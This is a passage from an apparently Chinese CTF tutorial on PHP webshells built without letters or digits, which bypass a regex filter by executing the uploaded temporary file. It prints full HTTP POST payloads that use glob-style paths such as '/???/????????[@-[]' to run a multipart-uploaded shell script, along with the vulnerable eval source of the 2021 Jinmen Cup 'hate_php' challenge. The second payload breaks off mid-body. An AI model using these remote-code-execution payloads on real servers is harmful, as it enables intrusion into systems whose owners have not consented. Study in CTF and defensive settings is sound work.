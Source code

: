 最后给出一个 Payload：

```
POST /?shell=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: 192.168.43.210:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 109

----------123
Content-Disposition:form-data;

#!/bin/sh
ls /
----------123--
```

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HibYW4nPYH5Qdye41G3PQqFUpiciaGKic8oD7FcUmuO4KxaMicZibzwYVe2vw/640?wx_fmt=jpeg)

我们可能需要多试几次才能正确的执行我们的代码，50% 的几率。下面我们来看一道 CTF 例题。

#### [2021 津门杯 CTF]hate_php

题目源码：

```
<?php
error_reporting(0);
if(!isset($_GET['code'])){
highlight_file(__FILE__);
}else{
$code = $_GET['code'];
if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
die('fighting!'); 
}
eval($code);
}
```

需要构造无字母数字的 Webshell，但是过滤了`_`和`$`就比较麻烦了，并且由于题目时 PHP 5 的环境：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HGiaEOhI5ib32F6jl4NOLssVYuibRIDa92ZDCibDMoGP05jAZyTGFYDEiblw/640?wx_fmt=jpeg)

其不允许像 PHP 7 中通过`('phpinfo')();`的形式来动态执行函数。但是我们可以通过执行临时文件的方法来绕过。给出 Payload：

```
POST /?code=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%3f-[]`%3b?> HTTP/1.1
Host: 122.112.214.101:20004
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 114

----------123
Content-Disposition:form-data;

#!/bin/sh
```